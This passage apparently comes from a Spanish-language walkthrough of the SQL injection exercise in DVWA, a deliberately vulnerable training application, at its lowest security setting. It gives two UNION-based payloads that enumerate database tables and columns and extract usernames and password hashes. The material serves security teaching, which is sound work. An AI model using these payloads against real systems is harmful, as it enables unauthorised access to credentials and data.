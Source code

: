 ![SQLi](https://github.com/sapellaniz/dvwa/blob/master/img/sqli-00.png)

### Security: low
Con el nivel de seguridad bajo seleccionado, no hay ninguna protección. Con estos payloads podemos obtener las tablas y columnas de la base de datos:

```
' AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns#
'or 1=0 union select user,password from users#
```
